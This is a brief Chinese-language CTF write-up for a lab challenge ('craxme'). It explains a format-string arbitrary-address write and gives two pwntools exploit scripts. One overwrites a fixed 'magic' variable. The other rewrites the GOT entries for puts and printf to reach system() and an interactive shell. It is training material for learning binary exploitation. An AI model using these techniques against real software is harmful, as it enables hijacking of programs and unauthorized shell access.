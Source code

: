 ## lab8

这道也是考察格式化字符串的任意地址写，就不多说了

**方法一**，直接覆盖magic：
exp：
```python
from pwn import *
context.log_level = 'debug'

p_magic = 0x0804A038
fmt_len = 7

cn = process('./craxme')

cn.recv()
pay = fmtstr_payload(fmt_len,{p_magic:0xfaceb00c})
cn.sendline(pay)
cn.recvuntil('}')


cn = process('./craxme')

cn.recv()
pay = fmtstr_payload(fmt_len,{p_magic:0xda})
cn.sendline(pay)
cn.recvuntil('}')
```

**方法二**，篡改GOT表：
把puts改到main中read的上面，printf改成system的plt表地址。
这样就可以拿到shell了。
exp：
```
#coding=utf8
from pwn import *
context.log_level = 'debug'

fmt_len = 7

cn = process('./craxme')
bin = ELF('./craxme')

cn.recv()
pay = fmtstr_payload(fmt_len,{bin.got['puts']:0x0804858B,bin.got['printf']:bin.plt['system']})
cn.sendline(pay)
cn.recv()

cn.interactive()
```


